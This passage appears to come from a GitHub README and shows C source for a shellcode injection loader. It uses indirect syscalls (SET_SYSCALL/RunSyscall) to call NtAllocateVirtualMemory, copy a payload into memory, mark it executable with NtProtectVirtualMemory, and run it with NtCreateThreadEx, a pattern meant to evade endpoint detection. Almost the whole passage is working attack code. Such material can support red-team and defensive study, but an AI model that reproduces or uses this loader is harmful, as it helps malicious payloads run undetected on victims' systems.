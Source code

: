 ```c
	}


	// allocating memory
	SET_SYSCALL(g_Nt.NtAllocateVirtualMemory);
	if ((STATUS = RunSyscall(hProcess, &pAddress, 0, &sSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)) != 0x00 || pAddress == NULL) {
		printf("[!] NtAllocateVirtualMemory Failed With Error: 0x%0.8X \n", STATUS);
		return -1;
	}
	

	// copying the payload
	memcpy(pAddress, Payload, sizeof(Payload));
	sSize = sizeof(Payload);


	// changing memory protection
	SET_SYSCALL(g_Nt.NtProtectVirtualMemory);
	if ((STATUS = RunSyscall(hProcess, &pAddress, &sSize, PAGE_EXECUTE_READ, &dwOld)) != 0x00) {
		printf("[!] NtProtectVirtualMemory Failed With Status : 0x%0.8X\n", STATUS);
		return -1;
	}


	// executing the payload
	SET_SYSCALL(g_Nt.NtCreateThreadEx);
	if ((STATUS = RunSyscall(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, FALSE, NULL, NULL, NULL, NULL)) != 0x00) {
		printf("[!] NtCreateThreadEx Failed With Status : 0x%0.8X\n", STATUS);
		return -1;
	}


	// waiting for the payload
	SET_SYSCALL(g_Nt.NtWaitForSingleObject);
	if ((STATUS = RunSyscall(hThread, FALSE, NULL)) != 0x00) {
		printf("[!] NtWaitForSingleObject Failed With Error: 0x%0.8X \n", STATUS);
		return -1;
	}


	printf("[#] Press <Enter> To Quit ... ");
	getchar();

	return 0;
}
```

  

### Demo
